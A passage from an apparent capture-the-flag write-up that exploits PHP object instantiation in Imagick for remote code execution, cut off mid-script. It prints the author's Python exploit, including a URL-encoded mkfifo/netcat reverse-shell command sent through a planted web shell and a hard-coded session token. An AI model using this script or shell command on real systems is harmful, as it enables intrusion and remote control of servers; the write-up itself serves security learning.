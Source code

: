 Following the provided link redirects us to Imagick’s source code.

<img src="/assets/img/intentions/Untitled 21.png" alt="Untitled 21.png" style="width:800px;">

At this point,  [IppSec’s walkthrough](https://www.youtube.com/watch?v=YmRDV0JR4qg&t=3105s&ab_channel=IppSec) was extremely helpful for me because I didn’t find many documentation. It resulted to be a PHP Instantiation exploit with Imagick to achieve RCE.

[This post](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) provides a final payload that we will be using. Personally, I prefer understanding the attack at a high-level and building my own Python script rather than delving into its complexity.

```python
import argparse
import requests
import sys
import textwrap

def rev_shell(target, lhost, lport):
    try:
        command = f'rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%20{lhost}%20{lport}%20%3E%2Ftmp%2Ff'
        url = f'http://{target}/duskpayload.php?cmd={command}'

        requests.get(url, timeout=3)

    except requests.Timeout:
        print("\n[+] Check your Netcat listener! :)")

def exploit(target):
    headers = {
    'Host': f'{target}',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0',
    'Accept': 'application/json, text/plain, */*',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate, br',
    'X-Requested-With': 'XMLHttpRequest',
    'Content-Type': 'multipart/form-data; boundary=ABC',
    'Cookie': 'token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTI5LjIyOS4yNy9hcGkvdjIvYXV0aC9sb2dpbiIsImlhdCI6MTcxNTIxNTU0MiwiZXhwIjoxNzE1MjM3MTQyLCJuYmYiOjE3MTUyMTU1NDIsImp0aSI6IndaaTA5RktPYUxQVVg3VVMiLCJzdWIiOiIxIiwicHJ2IjoiMjNiZDVjODk0OWY2MDBhZGIzOWU3MDFjNDAwODcyZGI3YTU5NzZmNyJ9.Ly0Uh0rlvVDIDY_RLQfK-saF1kPxR9PlDcFpy9J6U-c'
    }

    data = textwrap.dedent("""\
    --ABC
```